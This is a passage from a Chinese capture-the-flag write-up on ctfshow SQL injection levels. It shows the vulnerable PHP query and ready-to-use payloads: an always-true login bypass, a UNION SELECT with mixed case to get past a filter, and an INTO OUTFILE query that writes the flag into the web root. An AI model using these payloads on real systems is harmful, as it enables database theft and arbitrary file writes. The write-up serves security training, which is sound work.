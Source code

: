```python
    if '}' in result:
        break
```

可是这个脚本耗费时间太长了，42*5  秒 多。

另一种解法：

把 flag 内容写入 文件

```
1' union select username,password from ctfshow_user5 where username='flag' into outfile '/var/www/html/1.txt'--+
```

# 二、过滤注入

## web176~大小写绕过

> ·查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>    //代码过于简单，不宜展示
>   }
>       
> ```

万能密码：

```
1' or 1--+
```

在表中 flag 直接回显

还可以大小写绕过：

```
-1' UnION sELect 1,2,3--+

-1' UnION sELect id,username,password from ctfshow_user where username='flag'--+
```

## web177~/**/绕过空格
